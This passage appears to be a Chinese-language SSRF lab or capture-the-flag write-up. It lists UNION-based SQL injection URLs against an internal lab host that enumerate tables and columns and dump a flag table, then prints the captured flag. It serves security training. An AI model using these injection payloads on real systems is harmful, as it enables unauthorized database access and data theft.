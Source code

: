 ![image-20240904192106919](https://image.201068.xyz/assets/29.SSRF/image-20240904192106919.png)

![image-20240904192557130](https://image.201068.xyz/assets/29.SSRF/image-20240904192557130.png)

##### 表名

```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,group_concat(table_name%20separator%200x3c62723e)%20from%20information_schema.tables%20where%20table_schema='db'--+

http://172.72.23.23?id=0'%20union%20select%201,2,3,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()--+
```

![image-20240904192900298](https://image.201068.xyz/assets/29.SSRF/image-20240904192900298.png)

![image-20240904193046960](https://image.201068.xyz/assets/29.SSRF/image-20240904193046960.png)

##### 字段名

```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,group_concat(column_name%20separator%200x3c62723e)%20from%20information_schema.columns%20where%20table_name='flag_is_here'--+

http://172.72.23.23?id=0'%20union%20select%201,2,3,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()and%20table_name='flag_is_here'--+
```

![image-20240904193338943](https://image.201068.xyz/assets/29.SSRF/image-20240904193338943.png)

![image-20240904193518253](https://image.201068.xyz/assets/29.SSRF/image-20240904193518253.png)

##### 字段值

```mysql
http://172.72.23.23?id=0'%20union%20select%201,2,3,(select%20group_concat(content%20separator%200x3c62723e)%20from%20flag_is_here)--+

http://172.72.23.23?id=0'%20union%20select%201,2,3,(select%20content%20from%20flag_is_here)--+
```

![image-20240904193721301](https://image.201068.xyz/assets/29.SSRF/image-20240904193721301.png)

![image-20240904193930674](https://image.201068.xyz/assets/29.SSRF/image-20240904193930674.png)

#### flag5

```
flag{nisp5_Unlucky_flag5}
```



#### sql注入写入木马
